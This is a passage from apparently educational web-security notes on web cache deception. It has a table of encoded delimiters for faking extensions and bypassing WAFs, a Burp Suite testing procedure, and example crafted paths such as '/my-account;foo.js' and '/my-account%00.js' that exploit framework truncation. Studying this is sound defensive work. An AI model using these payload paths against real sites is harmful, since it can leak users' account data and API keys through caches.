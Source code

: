 | `,`       | Can be used in some APIs (e.g., for format lists)   | `/profile.css,js`             |
| `%2e`     | Encoded dot (used to fake extension)                | `/profile%2ejs`               |
| `%3b`     | Encoded `;` (used to bypass WAFs)                   | `/profile%3bfoo.js`           |
| `%3f`     | Encoded `?`                                         | `/profile.js%3fadmin`         |

---

## 🧪 Testing Strategy (Using Burp Suite or Similar Tools)

1. **Start with your target endpoint:**
    
    ```
    /account/details
    ```
    
2. **Add a string and a delimiter:**
    
    ```
    /account/details;abc.js
    /account/details%00.js
    /account/details.css
    ```
    
3. **Check for:**
    
    - `X-Cache: hit` or `X-Cache: miss` in the response.
        
    - Presence of sensitive info (e.g., API key, user data).
        
    - Status code differences (e.g., 200 vs. 404).
        

---

## 💡 Example Exploit Flow

```bash
Original:      /my-account
Test:          /my-account;foo.js      ← Spring truncates after `;`
Test:          /my-account%00.js       ← OpenLiteSpeed truncates
Test:          /my-account.ico         ← Rails treats `.ico` as static
Test:          /my-account.js?user=x   ← Cache stores as `.js`
```

---

## Exploiting static directory cache rules

It's common practice for web servers to store static resources in specific directories. Cache rules often target these directories by matching specific URL path prefixes, like `/static`, `/assets`, `/scripts`, or `/images`. These rules can also be vulnerable to web cache deception.

# Normalization discrepancies
